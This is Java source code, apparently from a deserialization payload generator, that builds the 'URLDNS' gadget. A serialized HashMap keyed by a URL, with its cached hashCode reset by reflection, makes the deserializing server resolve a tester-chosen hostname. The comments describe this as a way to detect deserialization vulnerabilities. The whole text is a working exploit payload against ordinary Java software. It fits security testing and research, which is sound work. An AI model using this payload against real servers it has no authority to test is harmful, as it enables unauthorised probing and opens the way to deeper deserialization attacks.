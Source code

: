 ```java
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}

```
